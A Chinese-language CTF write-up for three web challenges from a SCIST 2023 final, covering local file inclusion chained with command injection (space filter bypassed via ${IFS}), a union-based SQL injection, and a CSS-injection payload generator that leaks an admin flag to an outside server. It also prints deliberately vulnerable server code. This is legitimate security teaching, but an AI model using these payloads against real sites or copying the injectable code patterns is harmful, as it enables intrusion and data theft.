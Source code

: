 # Web

## fakelog

### description

這是一個測試用 log 產生器。試著找到漏洞取得檔案，並試著成功 RCE！！

### solution

透過觀看 `/howtogen` Line14 可以發現 gen.py 存在 LFI

```python=
#!/usr/local/bin/python3
import sys

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print("no argument")
        sys.exit()

    magic_num = int(sys.argv[1]) if sys.argv[1].isdigit() else sys.argv[1]
    if magic_num == 0:
        print("0 is not allowed")
        sys.exit()
    while magic_num != 1:
        with open(f"fakelog/{magic_num % 6 if isinstance(magic_num, int) else magic_num}", "r", encoding="utf-8") as fd:
            print(fd.read())
        magic_num = 3 * magic_num + 1 if magic_num % 2 else magic_num // 2
```

接下來看 `/hint` Dockerfile 可以知道主程式在 `/app/main.py`

```Dockerfile=
FROM python:3.10
RUN curl -sSL https://install.python-poetry.org | POETRY_HOME=/etc/poetry python3 -
WORKDIR /app

COPY pyproject.toml poetry.lock .
RUN /etc/poetry/bin/poetry config virtualenvs.create false && \
    /etc/poetry/bin/poetry install
COPY . .
ARG FLAG
RUN echo $FLAG > /app/flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 8 | head -n 1`
USER daemon
ENTRYPOINT ["python", "/app/main.py"]
```

透過 LFI 去看 `/app/main.py` 的運作邏輯

```python=
@app.route('/gen', methods=['GET', 'POST'])
def get_input():
    message = None
    if request.method == 'POST':
        user_input = request.form['user_input']
        if " " in user_input:
            result = "evil input"
        else:
            result = subprocess.run(
                f"python gen.py {user_input}", shell=True, capture_output=True, text=True).stdout.replace('\\n', '')
        message = f"result: \n{result}"
    return render_template('generate.html', message=message)
```

可以看到是透過 subprocess 去跑的，同時有著 cmdi，但有空白的話就會被當成 evil input，這可以透過 ${IFS} 去繞，於是就能 RCE 了。

https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/fakelog/exploit.sh

---

## fakelog-sql

### description

我為我的 fakelog 產生器架了一個資料庫… 應該會更安全吧

### solution

可以看到 Database 有一個明顯的 sqli

```python=
    def get_fakelog(self, log_id):
        try:
            cursor = self.conn.execute(
                f"SELECT * FROM fakelog WHERE id = {log_id}")
            fakelogs = cursor.fetchall()
            return fakelogs
        except Exception as e:
            return str(e)
```

再觀察 `gen.py` 若是以字串傳入就會直接被 database 使用

```python=
# get fake log from database
results = database.get_fakelog(
	magic_num % 6 if isinstance(magic_num, int) else magic_num)
```

另外會檢查第二個回傳值是否是以 FAKE 開頭，可以使用 union attack 構造 payload

![](./assets/payload1.png)
![](./assets/payload2.png)

https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/fakelog-sql/exploit.sh

---

## Cross-Style Sheets

### description

我做了一個留言板，使用者可以插入任意 html 還能分享給別人，而且為了防止 XSS 我用了最新版本的 DOMpurify 擋掉了壞壞 JavaScript，這個網站看起來非常安全><。

用前端技巧取得管理員的 flag 吧！

flag 格式：SCIST{[a-zA-Z0-9()_]+}

### solution

正常使用了最新版 DOMpurify 基本上可以暫時先不考慮 XSS 了。

觀察到 Flag 會以 `<p name="hereisflag" value="{{ username }}">Welcome, {{ username }}</p>` 出現在頁面上，然後題目名稱提示了 CSS，我們就想到可以使用 [CSS injection](https://blog.huli.tw/2022/09/29/css-injection-1/) 去一個一個 leak admin 的 flag。

```python=
temp = """p[name="hereisflag"][value^="scist{}"] {{background: url(http://ocrserver.vincent55.tw:7787?q=scist{});}} """
payload = ""
for c in char_set:
	payload += temp.format(c, c)
print(payload)
```

https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/CrossStyleSheets/exploit.py
